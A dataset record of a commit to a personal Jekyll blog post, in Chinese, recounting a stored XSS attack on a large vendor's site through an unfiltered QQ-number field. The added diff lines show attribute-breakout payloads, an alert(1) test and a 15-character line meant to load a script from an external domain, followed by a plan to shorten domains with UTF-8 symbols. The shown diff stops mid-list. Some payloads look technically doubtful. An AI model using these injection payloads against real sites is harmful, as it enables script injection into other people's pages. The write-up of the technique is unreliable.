

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md, in a window 1280 px wide. Shown: the whole page at 88% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1338 px from its top, so only the background shows below that.

Commit message:
Update 2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md

````diff
--- a/_posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md
+++ b/_posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md
@@ -13,12 +13,13 @@ published: true
 (毕竟人家大厂的工程师也不是吃素的)
 
 在看了将近七八十个站点后，终于发现了可疑xss注入点
-# [](#header-1)前期注入尝试阶段
+# [](#header-1)前期注入阶段
 在某子域下的某站点内的个人信息处，发现qq号信息竟然没有经过过滤
 于是仔细钻研qq号信息这个点，发现了以下规律
 1、qq号信息处可以填任意utf-8码字符，但是返回的网页会过滤<>
 2、qq号可作为公开信息展示在个人主页上，非常方便构造储存型xss
 3、qq号处处于某标签的value中
+4、qq号限制20长度字符，并且是后端校验
 
 手机号：经过了过滤
 QQ号：没有过滤
@@ -27,21 +28,22 @@ QQ号：没有过滤
 于是有机可乘的点就来了
 既然qq号处是处于某标签的value中，直接先""绕过，尝试构造新的标签参数
 ```js
-  " src="
+  " script="
 ```
 成功，并且没有任何的过滤
+再试试能否执行script函数
+```js
+  " script="alert(1)
+```
+成功
+但是依旧无法达到储存型xss要求，因为长度限制在20。我们想要执行更多脚本，必须引入外部url里面的脚本
+通过人脑极限压缩大法，我们最终将执行外部脚本极限压缩到15个字符
+```js
+  " script=http//[填写域名]
+```
+但这样，我们填写的域名就不能超过五个字符了，非常的危险
+说实话，想了短域名等方法，都没想到解决方案，差点就放弃了
 
-```js
-// Javascript code with syntax highlighting.
-var fun = function lang(l) {
-  dateformat.i18n = require('./lang/' + l)
-  return true;
-}
-```
-
-```ruby
-# Ruby code with syntax highlighting
-GitHubPages::Dependencies.gems.each do |gem, version|
-  s.add_dependency(gem, "= #{version}")
-end
-```
+但最后，还是想到了一个特别奇淫巧计的东西能利用：utf-8编码符号
+众所周知，utf-8字符集里有各种各样的符号，大家可能见过，但没用过，比如像：
+™	8482	2122
````
